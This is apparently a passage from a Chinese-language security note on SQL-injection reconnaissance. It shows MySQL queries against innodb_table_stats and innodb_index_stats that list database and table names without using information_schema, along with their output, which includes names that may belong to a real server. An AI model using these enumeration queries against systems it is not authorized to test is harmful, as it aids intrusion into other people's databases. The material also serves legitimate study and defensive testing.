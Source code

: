 

```plain
mysql> select distinct concat(0x7e,table_name,0x7e) from mysql.innodb_table_stats where database_name=database();
+------------------------------+
| concat(0x7e,table_name,0x7e) |
+------------------------------+
| ~migrations~                 |
| ~sms_accounts~               |
| ~system_configs~             |
| ~templete_message_tokens~    |
| ~users~                      |
+------------------------------+
5 rows in set
```



# 0x03 mysql 5.7之后库名与表名获取方法二

## 0x03.1 mysql库名获取



SELECT distinct concat(0x7e,database_name,0x7e) from mysql.innodb_index_stats;



```plain
mysql> SELECT distinct concat(0x7e,database_name,0x7e) from mysql.innodb_index_stats;
+---------------------------------+
| concat(0x7e,database_name,0x7e) |
+---------------------------------+
| ~JewelBoxService~               |
| ~Mamba_Blog~                    |
| ~Marketing-Activities-MServer~  |
| ~QM-WechatServer~               |
| ~ai_test~                       |
| ~career_talent_mserver~         |
| ~icbc~                          |
| ~icbc_careertalent_inrice_test~ |
| ~icbc_quiz~                     |
| ~lottery.inrice.cn~             |
| ~message~                       |
| ~moell_blog~                    |
| ~mysql~                         |
| ~quiz_server~                   |
| ~quiz_test~                     |
| ~sys~                           |
| ~test~                          |
| ~testsss~                       |
| ~voice.inrice.test~             |
+---------------------------------+
19 rows in set
```
